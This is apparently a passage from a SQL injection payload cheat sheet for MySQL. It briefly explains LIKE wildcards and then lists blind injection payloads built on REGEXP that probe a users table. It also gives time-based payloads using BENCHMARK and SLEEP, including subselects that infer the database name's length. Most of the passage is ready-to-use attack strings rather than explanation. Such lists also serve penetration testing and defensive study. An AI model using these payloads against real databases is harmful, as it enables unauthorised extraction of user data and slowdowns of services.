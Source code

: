 Wildcard Characters in LIKE:

* **Percentage Sign** (`%`): This wildcard represents zero, one, or multiple characters. It can be used to match any sequence of characters.
* **Underscore** (`_`): This wildcard represents a single character. It's used for more precise matching when you know the structure of the data but not the specific character at a particular position.

```sql
SELECT cust_code FROM customer WHERE cust_name LIKE 'k__l';
SELECT * FROM products WHERE product_name LIKE '%user_input%'
```


### MySQL Blind with REGEXP

Blind SQL injection can also be performed using the MySQL `REGEXP` operator, which is used for matching a string against a regular expression. This technique is particularly useful when attackers want to perform more complex pattern matching than what the `LIKE` operator can offer.

| Payload | Description |
| --- | --- |
| `' OR (SELECT username FROM users WHERE username REGEXP '^.{8,}$') --` | Checking length |
| `' OR (SELECT username FROM users WHERE username REGEXP '[0-9]') --`   | Checking for the presence of digits |
| `' OR (SELECT username FROM users WHERE username REGEXP '^a[a-z]') --` | Checking for data starting by "a" |


## MYSQL Time Based

The following SQL codes will delay the output from MySQL.

* MySQL 4/5 : [`BENCHMARK()`](https://dev.mysql.com/doc/refman/8.4/en/select-benchmarking.html)
    ```sql
    +BENCHMARK(40000000,SHA1(1337))+
    '+BENCHMARK(3200,SHA1(1))+'
    AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))
    ```

* MySQL 5: [`SLEEP()`](https://dev.mysql.com/doc/refman/8.4/en/miscellaneous-functions.html#function_sleep)
    ```sql
    RLIKE SLEEP([SLEEPTIME])
    OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))
    XOR(IF(NOW()=SYSDATE(),SLEEP(5),0))XOR
    AND SLEEP(10)=0
    AND (SELECT 1337 FROM (SELECT(SLEEP(10-(IF((1=1),0,10))))) RANDSTR)
    ```

### Using SLEEP in a Subselect

Extracting the length of the data.

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '%')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '___')# 
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '____')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '_____')#
```
